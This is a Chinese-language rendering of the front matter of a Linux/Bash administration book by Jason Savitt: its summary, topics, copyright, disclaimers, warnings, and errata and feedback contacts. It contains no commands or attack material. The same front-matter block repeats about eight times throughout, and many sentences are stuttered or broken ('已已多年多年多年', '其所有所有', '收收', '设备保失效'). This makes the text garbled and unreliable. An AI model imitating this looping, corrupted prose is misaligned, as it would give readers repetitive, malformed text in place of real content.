





# 高级用户指南：Linux 技巧、黑客与秘密：Bash 系统参考

通过实例学习 Linux：管理员命令、指南与参考 适用于：初级/中/高级人员


## 书籍摘要

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、Microsoft Azure 或 Google Cloud 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 **Bash 系统管理**版。还有第2卷，即 **Bash 系统参考**版。此外还有一个**终极版**，它包含了第1卷和第2卷的所有内容。

第1卷——**Bash 系统管理**版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 Bash Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 **Bash 系统参考**版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、Bash 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、Bash 单行命令和脚本。如何安装：Apache Web 服务器、MySQL、PHPMyAdmin 和 PHP。如何安装和管理 Docker 以及 Git。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

## 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 http://www.jasonsavitt.info/linuxsecrets/errata 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 support@jasonsavitt.info。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 http://support.microsoft.com。

## 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：feedback@jasonsavitt.info。在邮件的主题中，输入“Feedback Linux Command Tips”以便它直接发送给我。


# 通过实例学习 Linux：管理员命令、指南与参考 适用于：初级/中/高级人员


## 书籍摘要

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、`Microsoft Azure` 或 `Google Cloud` 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 `Bash 系统管理` 版。还有第2卷，即 `Bash 系统参考` 版。此外还有一个 `终极版`，它包含了第1卷和第2卷的所有内容。

### 第1卷——`Bash 系统管理` 版

适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、`DEVOPS`、`DEVSECOPS` 等] 或创建 IoT 设备）或已已多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 `Bash Shell` 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

### 第2卷即 `Bash 系统参考` 版

包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、`Bash` 键盘快捷键等许多更多内容。

### 涵盖主题

`Linux` 操作系统、`Linux` 命令、`Bash` 单行命令和脚本。如何安装：`Apache` Web 服务器、`MySQL`、`PHPMyAdmin` 和 `PHP`。如何安装和管理 `Docker` 以及 `Git`。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 责任限制/免责声明

作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

## 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入 `Feedback Linux Command Tips` 以便它直接发送给我。


# 简介

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、Microsoft Azure 或 Google Cloud 上进行管理或运行基础设施。

# 书籍版本

本书共有三个版本，第1卷是 `Bash 系统管理` 版。还有第2卷，即 `Bash 系统参考` 版。此外还有一个 `终极版`，它包含了第1卷和第2卷的所有内容。

## 第1卷——`Bash 系统管理` 版

第1卷——`Bash 系统管理` 版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 Bash Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

## 第2卷——`Bash 系统参考` 版

第2卷即 `Bash 系统参考` 版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、`Bash` 键盘快捷键等许多更多内容。

# 涵盖主题

`涵盖主题：` Linux 操作系统、Linux 命令、`Bash` 单行命令和脚本。如何安装：Apache Web 服务器、`MySQL`、`PHPMyAdmin` 和 `PHP`。如何安装和管理 `Docker` 以及 `Git`。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

# 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 http://www.jasonsavitt.info/linuxsecrets/errata 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 support@jasonsavitt.info。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 http://support.microsoft.com。

# 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：feedback@jasonsavitt.info。在邮件的主题中，输入 `Feedback Linux Command Tips` 以便它直接发送给我。

(通过实例学习 Linux：管理员命令、指南与参考 适用于：初级/中/高级人员)


**书籍摘要：**


# 通过实例学习 Linux：管理员命令、指南与参考

适用于：初级/中/高级人员


## 书籍摘要

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、`Microsoft Azure` 或 `Google Cloud` 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 `Bash 系统管理` 版。还有第2卷，即 `Bash 系统参考` 版。此外还有一个 `终极版`，它包含了第1卷和第2卷的所有内容。

### 第1卷——`Bash 系统管理` 版

适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、`DEVOPS`、`DEVSECOPS` 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 Bash Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

### 第2卷即 `Bash 系统参考` 版

包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、`Bash` 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、`Bash` 单行命令和脚本。如何安装：`Apache` Web 服务器、`MySQL`、`PHPMyAdmin` 和 `PHP`。如何安装和管理 `Docker` 以及 `Git`。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

## 版权

`Copyright © 2018 by Jason Savitt`

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

`Jason Savitt` 出版社

`www.jasonsavitt.info`

### ISBN

在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入 `Feedback Linux Command Tips` 以便它直接发送给我。


你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：feedback@jasonsavitt.info。在邮件的主题中，输入`Feedback Linux Command Tips`以便它直接发送给我。

通过实例学习 Linux：管理员命令、指南与参考 适用于：初级/中/高级人员


## 书籍摘要

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、Microsoft Azure 或 Google Cloud 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 `Bash` 系统管理版。还有第2卷，即 `Bash` 系统参考版。此外还有一个终极版，它包含了第1卷和第2卷的所有内容。

第1卷——`Bash` 系统管理版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 `Bash` Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 `Bash` 系统参考版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、`Bash` 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、`Bash` 单行命令和脚本。如何安装：Apache Web 服务器、MySQL、PHPMyAdmin 和 PHP。如何安装和管理 Docker 以及 Git。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

我们尽力确保本书的准确性并。你可以通过 http://www.jasonsavitt.info/linuxsecrets/errata 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 support@jasonsavitt.info。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 http://support.microsoft.com。

### 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：feedback@jasonsavitt.info。在邮件的主题中，输入`Feedback Linux Command Tips`以便它直接发送给我。

## 版权

Copyright © 2018 by Jason Savitt

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。

**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing (lewing@isc.tamu.edu) 和 GIMP 软件

Jason Savitt 出版社

www.jasonsavitt.info

ISBN

第一版

### 责任限制/免责声明

作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

### 信息、警告与风险

在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

### 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 http://www.jasonsavitt.info/linuxsecrets/errata 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 support@jasonsavitt.info。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 http://support.microsoft.com。

我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：feedback@jasonsavitt.info。在邮件的主题中，输入`Feedback Linux Command Tips`以便它直接发送给我。

# Jason Savitt

# Bash 系统参考

2019年版

# 高级用户指南

Linux 技巧、破解与秘密

第1卷

高级用户指南：Linux 技巧，破解与秘密 2019年版

终极版 第1卷 & 第2卷

通过实例学习 Linux：管理员命令、指南与参考 适用于：初级/中/高级人员


**书籍摘要：**


# Jason Savitt
# Bash 系统参考
## (2019年版)
## 高级用户指南：
Linux 技巧、
破解与秘密
[第1卷]

***高级用户指南：*** ***Linux 技巧，***
***破解与秘密*** ***(2019年版)***
***终极版*** ***[第1卷 & 第2卷]***
(通过实例学习 Linux：*管理员命令、指南与**参考* 适用于：初级/中/高级人员)


**书籍摘要：**

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、`Microsoft Azure` 或 `Google Cloud` 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 `Bash` 系统管理版。还有第2卷，即 `Bash` 系统参考版。此外还有一个终极版，它包含了第1卷和第2卷的所有内容。

第1卷——`Bash` 系统管理版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 `Bash` Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 `Bash` 系统参考版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、`Bash` 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、`Bash` 单行命令和脚本。如何安装：`Apache` Web 服务器、`MySQL`、`PHPMyAdmin` 和 `PHP`。如何安装和管理 `Docker` 以及 `Git`。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

## 版权

Copyright © 2018 by Jason Savitt

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。

**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing (`lewing@isc.tamu.edu`) 和 `GIMP` 软件

Jason Savitt 出版社

`www.jasonsavitt.info`

ISBN

第一版

## 责任限制/免责声明

作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

## 信息、警告与风险

在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入“**Feedback Linux Command Tips**”以便它直接发送给我。


# Jason Savitt
# Bash 系统参考
2019年版

# 高级用户指南
Linux 技巧、破解与秘密
[第1卷]

***高级用户指南：*** ***Linux 技巧，***
***破解与秘密*** ***(2019年版)***
***终极版*** ***[第1卷 & 第2卷]***

通过实例学习 Linux：*管理员命令、指南与参考* 适用于：初级/中/高级人员


**书籍摘要：**

如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 `AWS`、`Microsoft Azure` 或 `Google Cloud` 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 **Bash 系统管理**版。还有第2卷，即 **Bash 系统参考**版。此外还有一个**终极版**，它包含了第1卷和第2卷的所有内容。

第1卷——**Bash 系统管理**版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 Bash Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 **Bash 系统参考**版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、Bash 键盘快捷键等许多更多内容。

**涵盖主题：** Linux 操作系统、Linux 命令、Bash 单行命令和脚本。如何安装：Apache Web 服务器、MySQL、PHPMyAdmin 和 PHP。如何安装和管理 Docker 以及 Git。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

版权

Copyright © 2018 by Jason Savitt

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。

**封面艺术归属，Linux 吉祥物鹅 Tux** Larry Ewing `lewing@isc.tamu.edu` 和 GIMP 软件

Jason Savitt 出版社

`www.jasonsavitt.info`

ISBN

第一版

**责任限制/免责声明** 作者对本作品内容的内容的准确性或完整性不作任何陈述或保证，并明确放弃所有保证，包括但不限于对特定用途的适用性的保证。销售或促销材料均不得创建或扩展任何保证。书中包含的建议和策略可能不适用于每种情况。本书的销售基于以下理解：出版者并未从事法律、会计或其他专业服务。如果需要专业协助，应寻求能力专业人士的服务。出版者和作者均不对由此产生的损害承担责任。书中提及的某个机构或网站作为引用和/或进一步信息的潜在来源，这一事实，并不意味着作者或出版者认可该机构或网站可能提供的信息或其可能做出的建议。此外，读者应注意，书中列出的互联网网站在本书编写期间到你阅读期间可能已经发生了变化或消失。

信息、警告与风险

在遵循本书中的任何建议之前，请务必确保你已阅读并理解以下警告：书中提到的所有商标均归其所有所有。

书中提到的任何产品均不是对个人产品或其制造商的推荐或背书。

使用本书中的内容的风险自担。作者或其出版者（以及任何其他相关方）对遵循书中提供的信息而发生的问题或损坏不承担任何责任。发生任何问题的所有责任均由执行操作的读者承担。

本书的某些章节包含高级技巧，关于更改操作系统及其应用程序的关键系统配置区域，如果修改不当可能会导致其无法正常工作。

在处理任何电气设备时要加小心，检查计算机或外围设备的手册以获取妥善处理设备的特定说明。

遵循本书中的建议可能会导致设备保失效。在继续之前，务必检查制造商的建议。在开始工作之前，务必确保对计算机数据有良好的备份。在触摸内部任何电子元件之前，务必断开电脑的电源以及连接到它的任何设备。

## 勘误、更新与书籍支持

我们尽力确保本书的准确性并。你可以通过 `http://www.jasonsavitt.info/linuxsecrets/errata` 以提交的勘误列表及其相关更正的形式访问本书的更新。如果你发现了未列出的错误，请发送电子邮件至 `support@jasonsavitt.info`。请注意，微软软件和硬件的产品支持不通过之前的地址提供。如需微软软件或硬件的帮助，请访问 `http://support.microsoft.com`。

## 我们想听听你的意见

你的满意度是我们的最高优先级，你的反馈是我们最宝贵的资产。请告诉我们你对这本书的意见：`feedback@jasonsavitt.info`。在邮件的主题中，输入“`Feedback Linux Command Tips`”以便它直接发送给我。


# Jason Savitt
# Bash 系统参考
(2019年版)
# 高级用户指南：
Linux 技巧、
破解与秘密
[第1卷]

***高级用户指南：*** ***Linux 技巧，***
***破解与秘密*** ***(2019年版)***
***终极版*** ***[第1卷 & 第2卷]***
(通过实例学习 Linux：*管理员命令、指南与**参考* 适用于：初级/中/高级人员)


**书籍摘要：**
如今 Linux 运行在各种设备上，从微小的手表、IoT 设备（如树莓派和其他单板计算机）、智能手机、笔记本电脑、台式电脑、服务器、网络设备，甚至是大型机。许多云服务也使用 Linux 在亚马逊云服务 (AWS)、Microsoft Azure 或 Google Cloud 上进行管理或运行基础设施。

本书共有三个版本，第1卷是 **Bash 系统管理**版。还有第2卷，即 **Bash 系统参考**版。此外还有一个**终极版**，它包含了第1卷和第2卷的所有内容。

第1卷——**Bash 系统管理**版适用于想要学习 Linux（为了工作面试 [例如 Linux 系统管理员或工程师、DEVOPS、DEVSECOPS 等] 或创建 IoT 设备）或已已多年多年多年的人士。本书专为所有想要开始学习并掌握 Linux 操作系统和 Bash Shell 的人员编写，同时也学习如何利用高级功能。本书旨在帮助你快速上手，或在不浪费时间的情况下提升你现有的技能。

第2卷即 **Bash 系统参考**版，包含了数百个命令的参考、示例、技巧和注释，以让你对所涵盖的命令或主题有额外的见解。本书还包含了一份超过 600 多个 Linux 命令的全面快速参考（附示例）。此外，还包含了针对若干高级主题的多个 Linux 及相关快速入门指南，包括应用程序、网络主题、Bash 键盘快捷键等许多更多内容。

## 涵盖主题
Linux 操作系统、Linux 命令、Bash 单行命令和脚本。如何安装：Apache Web 服务器、MySQL、PHPMyAdmin 和 PHP。如何安装和管理 Docker 以及 Git。系统管理主题包括：故障排除、网络等。安全主题包括：防火墙管理概述，以及如何锁定你的 Linux 操作系统。

## 版权
Copyright © 2018 by Jason Savitt

保留所有权利。未经出版者事先书面许可，本出版物不得以任何形式或通过任何手段复制、发行或传输，包括复印、录制或其他电子或机械方法，但批判性评论中包含的简短引用以及版权法允许的某些非商业用途除外。如需许可，请写信至下方地址的出版者，抬头为“权限协调员收收”。

书中提到的所有商标均归其所有所有。

